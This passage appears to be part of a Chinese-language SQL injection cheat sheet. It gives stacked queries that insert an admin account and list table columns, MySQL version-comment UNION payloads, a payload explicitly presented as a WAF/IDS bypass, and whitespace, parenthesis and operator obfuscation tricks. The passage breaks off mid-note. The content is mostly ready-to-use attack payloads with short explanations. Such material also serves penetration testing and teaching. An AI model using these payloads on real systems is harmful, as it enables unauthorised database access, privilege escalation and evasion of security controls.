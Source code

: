 __例子__

	SELECT * FROM Users WHERE ID=1 AND 1=0; INSERT INTO Users(username, password, priv) VALUES ('BobbyTables', 'kl20da$$','admin');
	SELECT * FROM Users WHERE ID=1 AND 1=0; SHOW COLUMNS FROM Users;


##### MySQL特定的代码

MySQL允许你在感叹号后指定版本号。注释中的语法仅在版本大于或等于指定的版本号时执行。

__例子__

	UNION SELECT /*!50000 5,null;%00*//*!40000 4,null-- ,*//*!30000 3,null-- x*/0,null--+
	SELECT 1/*!41320UNION/*!/*!/*!00000SELECT/*!/*!USER/*!(/*!/*!/*!*/);

__注意__

1. 第一个例子返回版本; 它使用2列的UNION。
2. 第二个例子演示了如何绕过WAF / IDS。


##### 模糊和混淆

以下的字符可以被当作空格。

	09	Horizontal Tab  水平Tab
	0A	New Line   新的一行
	0B	Vertical Tab  垂直Tab
	0C	New Page     新的一页
	0D	Carriage Return  回车
	A0	Non-breaking Space 不间断空格
	20	Space  空格

__例子__

	'%0A%09UNION%0CSELECT%A0NULL%20%23

圆括号也可以用来避免使用空格。

	28	(
	29	)

__例子__

	UNION(SELECT(column)FROM(table))

__AND/OR后面的一些中间字符__

	20	Space
	2B	+
	2D	-
	7E	~
	21	!
	40	@

__例子__

	SELECT 1 FROM dual WHERE 1=1 AND-+-+-+-+~~((1))

注意：
